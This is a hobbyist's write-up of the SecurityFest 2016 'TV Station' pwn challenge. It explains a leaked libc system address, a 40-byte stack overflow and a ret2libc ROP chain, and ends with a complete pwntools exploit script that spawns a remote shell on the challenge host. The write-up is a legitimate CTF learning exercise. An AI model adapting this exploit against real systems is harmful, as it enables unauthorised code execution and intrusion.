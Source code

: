 
Hi , this a task from securityfest2016 "TV Station - Pwn (100)"

so here i will talk about my write up in securityfest2016 
i just play for fun so i solved some tasks (web,rev,pwn) and then stop playing because it was boring to play alone 
and change from categorie to another 

so lets start

this task give us a simple menu : 

```
=== TV Station - Control Panel ===
   1) Show uptime
   2) Show current user
   3) Exit
   
```

so the first show us the time 
```
 16:30:32 up 10 days, 14:31,  1 user,  load average: 1.00, 0.99, 0.88
```

and the second run system('id')
but when we reverse the code we get that when we send 4 we get 

```
=== TV Station - Debug Menu ===
[Debug menu] system is @0x7fa4619045f0
[Debug menu] Enter cmd:

```

and here where we start :D

we get the add of system and in the cmd we have buffer overflow but :/ aslr / Nx  : on

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

so what we need is to run system('/bin/sh')

The buffer is expecting 40 bytes. Anything over that will start to write outside 

We need now : 

1. Lib add (nm -D libc-2.19.so | grep __libc_system).
2. Get pop rdi.
3. Cal add system.
4. Cal add "/bin/sh"


and our payload will be : "A*40+add_pop_rdi+add_binsh+add_sys"

after some calcule :

we write the code 

```
#!/usr/bin/python
from pwn import *

s = remote("pwn2.securityfest.ctf.rocks", 3000)
b = ""

print s.recvuntil(": ")
s.sendline("4")
s.recvuntil("@0x")

# get system add from the result
system = s.recv(12)
b = int(system,16) - 0x465f0 #0x465f0 from lib

s.recvuntil("cmd:")

#calcule the add of "/bin/sh" and "pop rdi"
binsh = b + 0x17ca63
poprdi = b + 0x22b9a

#generate the payload for 64 bit
payload = ""
payload += "A"*40
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(int(system,16))

s.sendline(payload)

s.interactive()

```


and pwned :D 

![Screenshot](pwn.PNG)
